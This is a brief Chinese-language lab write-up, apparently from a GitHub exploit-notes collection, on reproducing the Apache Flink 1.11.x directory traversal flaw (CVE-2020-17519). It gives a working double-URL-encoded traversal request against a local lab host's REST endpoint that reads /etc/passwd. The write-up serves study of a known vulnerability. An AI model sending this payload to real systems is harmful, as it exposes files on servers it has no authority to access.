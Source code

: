 # Apache Flink 目录穿越漏洞

> 漏洞说明

​	Apache Flink 1.11.0 中引入的一项更改（也在 1.11.1 和 1.11.2 中发布）允许攻击者通过 JobManager 进程的 REST 接口读取 JobManager 本地文件系统上的任何文件。访问仅限于 JobManager 进程可访问的文件。如果 Flink 实例暴露，所有用户都应升级到 Flink 1.11.3 或 1.12.0。

> 前提条件



> 利用工具



> 漏洞复现

搭建靶场，访问http://192.168.40.77:8081/可以看到Apache Flink主页

![image-20230417210537404](../img/Apache-Flink_CVE-2020-17519/image-20230417210537404.png)

访问http://192.168.40.77:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd

成功读取到/etc/passwd文件

![image-20230417210708110](../img/Apache-Flink_CVE-2020-17519/image-20230417210708110.png)
